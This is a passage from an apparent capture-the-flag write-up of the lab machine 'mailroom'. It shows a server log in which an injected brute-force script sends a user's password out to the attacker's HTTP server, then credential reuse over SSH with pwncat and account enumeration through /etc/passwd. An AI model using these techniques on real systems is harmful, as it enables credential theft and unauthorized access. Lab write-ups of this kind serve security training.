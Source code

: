 
Subsequently, the python server starts receiving a series of requests, that ultimately provide the password for the user `tristan`: `69trisRulez!`

```bash
> www
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.209 - - [25/Apr/2023 16:20:31] code 404, message File not found
10.10.11.209 - - [25/Apr/2023 16:20:32] "GET /password_bruteforce.js HTTP/1.1" 200 -
10.10.11.209 - - [25/Apr/2023 16:20:44] "GET /password_bruteforce.js HTTP/1.1" 200 -
10.10.11.209 - - [25/Apr/2023 16:20:45] code 404, message File not found
10.10.11.209 - - [25/Apr/2023 16:20:45] "GET /passwd?6 HTTP/1.1" 404 -
...
...
10.10.11.209 - - [25/Apr/2023 16:25:46] "GET /password_bruteforce.js HTTP/1.1" 200 -
10.10.11.209 - - [25/Apr/2023 16:25:48] code 404, message File not found
10.10.11.209 - - [25/Apr/2023 16:25:48] "GET /passwd?69trisRulez! HTTP/1.1" 404 -
```

Since the staffroom site is still inaccessible, decided to reuse the credentials for SSH. This resulted in obtaining a shell as `tristan`!

```bash
> pc 'tristan:69trisRulez!'@mailroom.htb
[09:16:08] Welcome to pwncat 🐈!                                                                    __main__.py:164
[09:16:11] mailroom.htb:22: registered new host w/ db                                                manager.py:957
(local) pwncat$
(remote) tristan@mailroom:/home/tristan$ id
uid=1000(tristan) gid=1000(tristan) groups=1000(tristan)
(remote) tristan@mailroom:/home/tristan$
```

---

## Horizontal Privilege Escalation

---

Tristan lacks any sudo privileges.

```bash
(remote) tristan@mailroom:/home/tristan$ sudo -l
[sudo] password for tristan:
Sorry, user tristan may not run sudo on mailroom.
```

However, I discovered another user named `matthew` with a login shell, as indicated in `/etc/passwd` and `/home` directory.

```bash
(remote) tristan@mailroom:/home/tristan$ ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Jan 15  2023 .
drwxr-xr-x 18 root    root    4096 Mar 26 00:46 ..
drwxr-xr-x  3 matthew matthew 4096 Jul 19 13:17 matthew
drwxr-xr-x  4 tristan tristan 4096 Jan 15  2023 tristan
(remote) tristan@mailroom:/home/tristan$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
tristan:x:1000:1000:tristan:/home/tristan:/bin/bash
matthew:x:1001:1001:,,,:/home/matthew:/bin/bash
```
